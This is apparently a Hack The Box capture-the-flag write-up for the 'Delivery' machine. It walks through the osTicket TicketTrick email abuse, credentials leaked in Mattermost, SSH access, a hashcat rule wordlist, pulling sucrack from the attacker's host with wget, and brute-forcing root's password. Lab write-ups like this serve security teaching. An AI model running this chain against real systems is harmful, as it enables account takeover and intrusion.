





# About the Delivery
Delivery is an easy difficulty Linux machine that features the support ticketing system osTicket where it is
possible by using a technique called TicketTrick, a non-authenticated user to be granted with access to a
temporary company email. This "feature" permits the registration at MatterMost and the join of internal
team channel. It is revealed through that channel that users have been using same password variant
"PleaseSubscribe!" for internal access. In channel it is also disclosed the credentials for the mail user which
can give the initial foothold to the system. While enumerating the file system we come across the
mattermost configuration file which reveals MySQL database credentials. By having access to the database
a password hash can be extracted from Users table and crack it using the "PleaseSubscribe!" pattern. After
cracking the hash it is possible to login as user root.
* Skills Required :
    Basic web enumeration
    / Brute force
* Skills Learned :
    Email impersonation
    / Intermediate password cracking
# Enumeration 

## Nmap scan
```text
Nmap 7.91 scan initiated Fri Jun  4 08:25:04 2021 as: nmap -sV -sC -oN nmap/delivery.nmap 10.10.10.222
Nmap scan report for 10.10.10.222
Host is up (0.15s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 9c:40:fa:85:9b:01:ac:ac:0e:bc:0c:19:51:8a:ee:27 (RSA)
|   256 5a:0c:c0:3b:9b:76:55:2e:6e:c4:f4:b9:5d:76:17:09 (ECDSA)
|_  256 b7:9d:f7:48:9d:a2:f2:76:30:fd:42:d3:35:3a:80:8c (ED25519)
80/tcp open  http    nginx 1.14.2
|_http-server-header: nginx/1.14.2
|_http-title: Welcome
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Jun  4 08:25:33 2021 -- 1 IP address (1 host up) scanned in 29.51 seconds
```
We got a port 80 in our nmap scan. So we can hope into that website and take a look at it.


We can see **helpdesk** site and **contact us**. After we add into that address our host file we can see the help desk delivery site and contact us. 



Contact us  redirect to the **Mattermost login page**.



I try to find some exploit to osTicket. Here is the exploitDB site.



After reading exploits I try to make a ticket.


After I send it that leaked email address.


So I hop into that **Check Ticket Status** tab. For look into our ticket. When you log into your account you can see your ticket. 


Next thing we need to do creating account on **Mattermost** . We can use that email they gave us. Your password must be something like this *Defalt#123* .


After we create account they send us the verify email. Take a look into our **View Ticket Thread** tab.


After we go into that link. You need to log into that account you created. You can choose *Internal server* whatever it shows in first page after you log in.


I think we got our credentials to our user machine. 
Credentials :
* Login : maildeliverer
* passwd : Youve Got Mail!

```bash
┌─[✗]─[visith@parrot]─[~/CTF/htb/delivery]
└──╼ $ssh maildeliverer@10.10.10.222
The authenticity of host '10.10.10.222 (10.10.10.222)' can't be established.
ECDSA key fingerprint is SHA256:LKngIDlEjP2k8M7IAUkAoFgY/MbVVbMqvrFA6CUrHoM.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.10.222' (ECDSA) to the list of known hosts.
maildeliverer@10.10.10.222's password: 
Linux Delivery 4.19.0-13-amd64 #1 SMP Debian 4.19.160-2 (2020-11-28) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Tue Jan  5 06:09:50 2021 from 10.10.14.5
maildeliverer@Delivery:~$ ls
user.txt
maildeliverer@Delivery:~$ cat user.txt
7f41e5191b9dca10b271abd2e425dfca
```
Now we got into our user. Now lets see anyother users in this machine . For that we can use this to grep what we want.

```bash
maildeliverer@Delivery:~$ cat /etc/passwd | grep -v 'nologin\|false'
root:x:0:0:root:/root:/bin/bash
sync:x:4:65534:sync:/bin:/bin/sync
maildeliverer:x:1000:1000:MailDeliverer,,,:/home/maildeliverer:/bin/bash
mattermost:x:998:998::/home/mattermost:/bin/sh
```
Nothing Interesting to me. But after some time I look into our mattermost chat. I found a hint on that chat. Thx to ippsec we got a hint for root passwd. He provide a great hint.



So we can use **hashcat** to generate password list to crack **root** password. Because we cant use rockyou.txt in this matter. First make a sample to our password list like this.

```bash
┌─[visith@parrot]─[~/CTF/htb/delivery]
└──╼ $echo PleaseSubscribe! > passwd.txt && cat passwd.txt
PleaseSubscribe!
┌─[visith@parrot]─[~/CTF/htb/delivery]
└──╼ $hashcat --stdout passwd.txt -r /usr/share/hashcat/rules/best64.rule >> passwd.txt
```
Now we make a passwd list to crack. Now we need to crack root's password. So I end up using tool call **sucrack** .

Here is the link for tool : https://github.com/hemp3l/sucrack.git

After you download it You need to setup it. Use following commands to make the sucrack file. 

```bash
┌─[✗]─[visith@parrot]─[/opt/sucrack]
└──╼ $sudo ./configure 
checking for a BSD-compatible install... /usr/bin/install -c
checking whether build environment is sane... yes
checking for a thread-safe mkdir -p... /usr/bin/mkdir -p
checking for gawk... gawk
checking whether make sets $(MAKE)... yes
checking whether make supports nested variables... yes
checking build system type... x86_64-pc-linux-gnu
checking host system type... x86_64-pc-linux-gnu
checking target system type... x86_64-pc-linux-gnu
loc... yes
checking for pid_t... yes
checking vfork.h usability... no
checking vfork.h presence... no
checking for vfork.h... no
checking for fork... yes
checking for vfork... yes
checking for working fork... yes
checking for working vfork... (cached) yes
checking for dup2... yes
checking for memset... yes
checking for strdup... yes
checking for strstr... yes
checking that generated files are newer than configure... done
configure: creating ./config.status
config.status: creating Makefile
config.status: creating src/Makefile
config.status: creating config.h
config.status: config.h is unchanged
config.status: executing depfiles commands

sucrack configuration
---------------------
sucrack version		: 1.2.3
target system           : LINUX
sucrack link flags      : -pthread
sucrack compile flags	: -DSTATIC_BUFFER  -DLINUX -DSUCRACK_TITLE="\"sucrack 1.2.3 (LINUX)\""
┌─[visith@parrot]─[~/CTF/htb/delivery]
└──╼ $sudo make
```
After that you must get sucrack file. So let's make a 'www' directory and upload them into the our machine. 

```bash
┌─[visith@parrot]─[~/CTF/htb/delivery]
└──╼ $mv passwd.txt www/
┌─[visith@parrot]─[~/CTF/htb/delivery]
└──╼ $cd www/
┌─[✗]─[visith@parrot]─[~/CTF/htb/delivery/www]
└──╼ $cp /opt/sucrack/src/sucrack .
```
Let's get that files and do our thing. For that I recommend to use /dev/shm/ directory . Because it's temporary file storage so you don't need to worry about cleaning up your work.

```bash
maildeliverer@Delivery:~$ cd /dev/shm/
maildeliverer@Delivery:/dev/shm$ wget 10.10.14.8:8000/passwd.txt
--2021-06-04 00:00:27--  http://10.10.14.8:8000/passwd.txt
Connecting to 10.10.14.8:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 1194 (1.2K) [text/plain]
Saving to: ‘passwd.txt’

passwd.txt              100%[=============================>]   1.17K  --.-KB/s    in 0s      

2021-06-04 00:00:27 (100 MB/s) - ‘passwd.txt’ saved [1194/1194]

maildeliverer@Delivery:/dev/shm$ wget 10.10.14.8:8000/sucrack
--2021-06-04 00:00:36--  http://10.10.14.8:8000/sucrack
Connecting to 10.10.14.8:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 77320 (76K) [application/octet-stream]
Saving to: ‘sucrack’

sucrack                 100%[=============================>]  75.51K   244KB/s    in 0.3s    

2021-06-04 00:00:36 (244 KB/s) - ‘sucrack’ saved [77320/77320]
```
Now execute our script to that make it executable.
```bash
maildeliverer@Delivery:/dev/shm$ chmod +x sucrack 
maildeliverer@Delivery:/dev/shm$ ./sucrack -h
sucrack 1.2.3 (LINUX) - the su cracker
Copyright (C) 2006  Nico Leidecker; nfl@portcullis-security.com

 Usage: ./sucrack [-char] [-w num] [-b size] [-s sec] [-u user] [-l rules] wordlist
```
After reading tools option. I cracked the password.

```bash
maildeliverer@Delivery:/dev/shm$ ./sucrack -a -w 20 -s 10 -u root -r passwd.txt 
-a option not available. Use the --enable-statistics configure flag
-s option not available. Use the --enable-statistics configure flag
password is: PleaseSubscribe!21

```
Let's move into root user.

```bash
maildeliverer@Delivery:/dev/shm$ su -
Password: 
root@Delivery:~# ls
mail.sh  note.txt  py-smtp.py  root.txt
root@Delivery:~# cat note.txt 
I hope you enjoyed this box, the attack may seem silly but it demonstrates a pretty high risk vulnerability I've seen several times.  The inspiration for the box is here: 

- https://medium.com/intigriti/how-i-hacked-hundreds-of-companies-through-their-helpdesk-b7680ddc2d4c 

Keep on hacking! And please don't forget to subscribe to all the security streamers out there.

- ippsec
root@Delivery:~# cat root.txt 
2ed05a6f7194cad2e28227330d0a8429
```

Thx for reading !! and have a nice day.